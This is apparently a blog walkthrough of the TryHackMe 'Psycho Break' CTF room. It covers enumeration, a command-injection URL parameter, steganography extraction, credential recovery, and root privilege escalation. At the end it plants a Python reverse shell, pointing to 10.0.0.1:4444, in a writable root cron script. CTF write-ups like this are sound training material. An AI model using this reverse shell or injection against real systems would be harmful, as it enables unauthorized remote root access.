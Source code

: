 ```yaml
---
layout: post
title: psychobreak
date: 2020-11-14 19:00:00 +0000
categories: [Tryhackme, Easy]
tags: [thm]
image: /assets/img/tryhackme/psychobreak/room_icon.jpeg
---
```


# **Psychobreak**
---

Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.

![cover image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

Deploy the VM and let’s go…

First up is enumeration

## #Task #1
---

![nmap](/assets/img/tryhackme/psychobreak/3.png)
<br>
<p>A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.</p>


## #Task #2
---

![http_service](/assets/img/tryhackme/psychobreak/4.png)
<br><p> In the source page we can find the room name. Let’s go into the room.</p>

![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
<br>
<p>We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.</p>

![Sadist_room2](/assets/img/tryhackme/psychobreak/6.png)
<br>
<p>After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.</p>

![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
<br>
<p>At first I thought it was rot13 encoded but I was wrong. Go the link *[vigenere-solver](https://www.guballa.de/vigenere-solver)* and choose the correct variant given in the image to decode the text</p>

![decode](/assets/img/tryhackme/psychobreak/8.png)
<br>
<p>After decoding, enter the decoded text to get access to map. Let’s move on to the next room…</p>

![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
<br>
<p>In the source code of the page we can find a hint.<p>

![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
<br>
<p>I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.</p>

<pre>
gobuster dir -u http://<ip-address>/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100 
</pre>
<br>
<p>use gobuster with the medium wordlist to find the hidden directory.</p>

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
<br>
<p>After clicking on the link we are redirected to another page.</p>

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
<br>
<p>A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.</p>

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
<br>
<p>After clicking on the link, it redirects to another page.</p>

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
<br>
<p>After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….</p>

<pre>
http://<ip-address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls ..
</pre>

![dir_list](21.png)
<br>
<p>I downloaded the two files after moving into the other directory that was returned in the response.</p>

## #Task #3
---
<br>
<p>The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.</p>

<pre>
binwalk -e image.jpg
</pre>
<br>
<p>After listening to the .wav file I found that it was morse code. So, I decrypted using *[Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html)*.</p>

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
<br>
<p>Using the message that is decrypted  to extract the contents of the other image file with steghide.</p>

<pre>
steghide --extract -sf image_file.jpg
</pre>
<br>
<p>The text file gives the ftp credentials. Let’s login to ftp…</p>

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## #Task #4
---
<br>
<p>I found two files in the ftp server and I downloaded using the get command.</p>

<pre>
get <file-name>
</pre>
<br> 
![program](/assets/img/tryhackme/psychobreak/30.png)

<br>
<p>After running the program file I found that it takes a word as a argument. So, I ran the bash script.</p>
<br>

```
for i in $(cat list.dic);
do
./program $i;
done
```

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
<br>
<p>There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().</p>


## #Task #5
---
<br>
<p>The decoded text is the SSH password. Without further wait, let’s login to ssh.</p>

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
<br>
<p>We found the user.txt in the home directory and some other hidden files</p>

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
<br>
<p>After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.</p>

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

<br>
<p>So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.</p>

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
<br>
<p>We also got the root flag.</p>

## #Bonus
---
<br>
![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

<br>
<p>The bonus task is to delete the user ruvik</p>

<pre>
userdel -r ruvik
</pre>
<br>
<p> Run this as root</p>

<p>That’s it folks. Happy Hacking!!! :sunglasses: </p>
